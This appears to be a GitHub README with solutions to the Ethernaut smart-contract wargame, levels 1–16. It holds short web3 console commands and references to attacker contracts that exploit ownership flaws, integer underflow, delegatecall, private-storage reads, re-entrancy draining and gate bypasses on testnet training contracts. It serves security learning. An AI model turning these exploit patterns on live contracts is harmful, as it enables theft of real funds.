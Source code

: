 # Ethernaut - Solutions

## 1. Fallback

```
await contract.contribute({ value: toWei("0.0001") });
await contract.sendTransaction({ value: toWei("0.0001") });
await contract.withdraw();
```


## 2. Fallout

```
await contract.Fal1out({ value: toWei("0.0001") });
await contract.collectAllocations();
```


## 3. Coin Flip

Compile [CoinFlipAttack.sol](./solutions/CoinFlipAttack.sol) and deploy it to the Rinkeby testnet with e.g. Remix IDE and MetaMask (Injected Web3).
Do not forget to specify the level `instance` address when deploying the attacker contract (constructor).  
Afterwards, just call the `callFlipWithCorrectGuess()` function 10 times.


## 4. Telephone

Compile [TelephoneProxy.sol](./solutions/TelephoneProxy.sol) and deploy it to the Rinkeby testnet with e.g. Remix IDE and MetaMask (Injected Web3).
Afterwards, just call the `giveMeTelephoneOwnership(address _telephoneContract)` function with the level `instance` address as first argument.

## 5. Token

```
const balance = Number(await contract.balanceOf(player));
await contract.transfer(level /* can be any address except own */, balance + 1 /* create underflow in contract */);
```

## 6. Delegation

See solidity function [delegatecall](https://solidity-by-example.org/delegatecall/).
```
await contract.sendTransaction({ data: web3.eth.abi.encodeFunctionSignature("pwn()") });
```

## 7. Force

See solidity function [selfdestruct](https://solidity-by-example.org/hacks/self-destruct/).  
Compile [ForcePay.sol](./solutions/ForcePay.sol) and deploy it to the Rinkeby testnet with at least 0.001 ETH.
Afterwards, just call the `destroyAndLeaveBalanceAt(address _contract)` function with the level `instance` address as first argument.

## 8. Vault

```
const password = await web3.eth.getStorageAt(instance, 1); // get storage variable at index 1 of contract (although it's private!)
await contract.unlock(password);
```

## 9. King

Compile [King4Ever.sol](./solutions/King4Ever.sol) and deploy it to the Rinkeby testnet with at least 0.001 ETH and the level `instance` address as argument (constructor).
The fallback function of this contract is going to revert any subsequent transaction which is trying to claim the throne.

## 10. Re-entrancy

Compile [ReentranceAttack.sol](./solutions/ReentranceAttack.sol) and deploy it to the Rinkeby testnet with e.g. 0.0001 ETH and the level `instance` address as argument (constructor).
Afterwards, just call the `drainVictim()` function to steal all funds from the level contract. Once this is done, do not forget to call the `withdraw()` function to get the funds back to your wallet.

## 11. Elevator

Compile [Building.sol](./solutions/Building.sol) and deploy it to the Rinkeby testnet with e.g. Remix IDE and MetaMask (Injected Web3).
Afterwards, just call the `goToTop(address _elevatorContract)` function with the level `instance` address as first argument.

## 12. Privacy

See [Layout of State Variables in Storage](https://docs.soliditylang.org/en/v0.6.12/internals/layout_in_storage.html).
```
const data2_32 = await web3.eth.getStorageAt(instance, 5); // get private storage variable 'data[2]' from contract
const data2_16 = data2_32.substring(0, data2_32.length - 32); // remove last 16 bytes from data[2], i.e. typecast from bytes32 to bytes16
await contract.unlock(data2_16);
```

## 13. Gatekeeper One

See [Solidity - Conversions](https://www.tutorialspoint.com/solidity/solidity_conversions.htm).  
Compile [GatebreakerOne.sol](./solutions/GatebreakerOne.sol) and deploy it to the Rinkeby testnet with the level `instance` address as argument (constructor). Done!

## 14. Gatekeeper Two

See [Bypass Contract Size Check](https://solidity-by-example.org/hacks/contract-size/).  
Compile [GatebreakerTwo.sol](./solutions/GatebreakerTwo.sol) and deploy it to the Rinkeby testnet with the level `instance` address as argument (constructor). Done!


## 15. Naught Coin

Circumvent the token lock using (non-overrided) ERC20 base class functions:
```
const playerBalance = await contract.balanceOf(player);
await contract.approve(player, playerBalance); // approve self to transfer tokens using 'transferFrom' function

const tokenReceiver = web3.eth.accounts.create(); // create new account to receive tokens
await contract.transferFrom(player, tokenReceiver.address, playerBalance); // transfer tokens to new account
```

## 16. Preservation

See solidity function [delegatecall](https://solidity-by-example.org/delegatecall/).  
Compile [MadLibraryContract.sol.sol](./solutions/MadLibraryContract.sol.sol) and deploy it to the Rinkeby testnet with e.g. Remix IDE and MetaMask (Injected Web3).
Afterwards, just call the `attack1(address _preservationContract)` and `attack2(address _preservationContract)` functions with the level `instance` address as first argument.

